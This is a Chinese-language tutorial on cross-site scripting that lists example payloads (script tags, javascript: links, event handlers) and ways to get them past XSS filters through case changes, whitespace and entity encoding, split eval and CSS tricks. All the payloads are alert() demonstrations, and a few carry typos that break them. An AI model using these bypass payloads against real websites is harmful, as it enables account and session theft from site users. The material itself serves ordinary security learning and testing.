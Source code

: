 #### xss构造

1. 利用<>构造HTML标签和JS<script>标签

    提交`<script>alert(/xss/)</script>`，触发xss攻击

2. 使用JavaScript以为协议方式构造xss

    javascript:alert(/xss/)

    `<a href="javascript:alert(/xss/)">touch me!</a>`

3. 产生的事件

    网页中会发生很多事件，JS可以对这些事件进行响应，可以通过事件触发JS函数，触发XSS

    1. windows事件，对windows对象触发的事件

    2. form事件，HTML表单的动作触发事件

    3. keyboard事件，键盘按键

    4. mouse事件，鼠标或类似用户动作触发的事件

    5. meida事件，由多媒体触发的事件

        鼠标悬停图片触发XSS：<img src='./smile.jpg' onmouseover='alert(/xss/)'>

        点击键盘任意按键触发XSS：`<input type="text" onkeydown="alert(/xss/)">`

        `<input type="text" onkeyup="alert(/xss/)">`

        `<input type="button" onclick="alert(/xss/)">`

    6. 其他标签和手法

        `<svg onload="alert"(/xss/)">`

        `<input onfocus=alert(/xss/) autofucus>`

        

#### XSS的变形

通过构造xss代码进行各种变形，以绕过xss过滤器的检测

1. 大小写转换，将payload进行大小写转化，如：

    `<Img sRc='#' Onerror="alert(/xss/)" />`

    `<a hREf="javaScript:alert(/xss/)">click me</a>`

2. 引号的使用，HTML对引号的使用不敏感，但是某些过滤函数比较严格

    `<img src="#" onerror="alert(/xss/)"/>`

3. /代替空格，可以利用左斜线代替空格

    `<Img/sRc='#'/Onerror='alert(/xss/)' />`

4. 回车，可以在一些位置添加Tab（水平制表符）和回车符，来绕过关键字检测，很难检测到

    `<A hREf="j

    a	v

    a	s

    c	R

    i	p

    t	:

    alert(/xss/)">click me!</a>`

5. 对标签属性值进行转码，用来绕过过滤，对应编码如下：

    | 字母 | ASCII码 | 十进制编码 | 十六进制编码 |
    | ---- | ------- | ---------- | ------------ |
    | a    | 97      | &#97;      | &#x61;       |
    | e    | 101     | &#101;     | &#x65;       |

    编码之后显示：

    `<A hREf="j&#97;v&#x61;script:alert(/xss/)">click me!</a>`

    - 可以将一下任意字符插到任意位置：

      tab	&#9

      换行	&#10

      回车	&#13

    - 也可以将以下字符插入到头部位置：

      SOH	&#01

      STX	&#02

      编码之后的样子

    - 编码之后的样子：

      `<A hREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me!</a>`

6. 拆分跨站

    `<script>z='alert'</script>`

    `<script>z=z+'(/xss/)'</script>`

    `<script>eval(z)</script>`

7. 双写绕过

    `<script>`

    `<scr<script>ipt>`

8. CSS中的变形

    - 使用全角字符

      width:ｅｘｐｒｅｓｓｉｏｎ(alert(/xss/))

    - 注释会被浏览器忽略

      width:expr/*~*/ession(alert(/x~s~s))

    - 样式表中的`[\]`和`[0]`

      `<style>@import	'javasc\ri\0pt:alert("xss")';</style>`
